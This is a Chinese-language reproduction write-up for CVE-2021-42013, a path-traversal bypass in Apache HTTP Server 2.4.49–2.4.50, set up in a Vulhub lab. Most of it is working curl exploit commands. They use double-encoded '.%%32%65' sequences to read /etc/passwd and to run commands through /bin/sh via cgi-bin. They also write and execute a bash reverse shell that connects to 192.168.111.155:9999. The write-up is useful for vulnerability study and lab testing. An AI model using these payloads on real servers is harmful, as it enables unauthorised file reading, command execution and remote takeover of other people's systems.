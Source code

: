 # CVE-2021-42013

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache HTTP Server 2.4.50 路径穿越漏洞

## 0x01 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

## 0x02 影响范围

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

## 0x03 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 0x04 漏洞复现

![image.png](image/image.png)

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但可以使用`.%%32%65`进行绕过，`.%%32%65`是对`%2e`再次URL编码后的结果（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://192.168.111.196:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![image.png](image/image%201.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://192.168.111.196:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image.png](image/image%202.png)

写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.111.155/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.111.196:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.111.196:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image.png](image/image%203.png)